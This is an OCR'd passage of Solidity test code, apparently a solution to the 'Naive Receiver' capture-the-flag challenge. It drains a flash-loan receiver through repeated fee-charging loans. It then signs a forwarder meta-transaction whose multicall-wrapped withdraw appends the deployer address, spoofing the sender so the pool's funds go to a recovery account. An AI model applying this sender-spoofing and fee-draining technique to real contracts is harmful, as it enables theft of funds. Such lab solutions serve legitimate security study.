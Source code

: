 ```solidity
        assertEq(pool.maxFlashLoan(address(weth)), WETH_IN_POOL);
        assertEq(pool.flashFee(address(weth), 0), 1 ether);
        assertEq(pool.feeReceiver(), deployer);

        // Cannot call receiver
        vm.expectRevert(0x48f5c3ed);
        receiver.onFlashLoan(
            deployer,
            address(weth), // token
            WETH_IN_RECEIVER, // amount
            1 ether, // fee
            bytes("") // data
        );
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_naiveReceiver() public checkSolvedByPlayer {
        ///////////////////////////////////
        // Empty Receiver Balance//////////
        ///////////////////////////////////

        for (uint8 i = 0; i < 10; i++) {
            pool.flashLoan(receiver, address(weth), WETH_IN_POOL, bytes(""));
        }

        ///////////////////////////////////
        // Withdraw All Funds To Recovery//
        ///////////////////////////////////

        uint256 total = WETH_IN_POOL + WETH_IN_RECEIVER;
        bytes memory Withdrawdata = abi.encodeWithSignature("withdraw(uint256,address)", total, recovery, deployer);
        bytes[] memory multicall_data_array = new bytes[](1);
        multicall_data_array[0] = Withdrawdata;
        bytes memory multicallEncodedData = abi.encodeWithSignature("multicall(bytes[])", multicall_data_array);
        BasicForwarder.Request memory executeRequest = BasicForwarder.Request({
            from: player,
            target: address(pool),
            value: 0,
            gas: 100000,
            nonce: vm.getNonce(player),
            data: multicallEncodedData,
            deadline: block.timestamp + 1000
        });

        bytes32 digest =
            keccak256(abi.encodePacked("\x19\x01", forwarder.domainSeparator(), forwarder.getDataHash(executeRequest)));

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, digest);

        forwarder.execute(executeRequest, abi.encodePacked(r, s, v));
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private view {
        // Player must have executed two or less transactions
        assertLe(vm.getNonce(player), 2);
```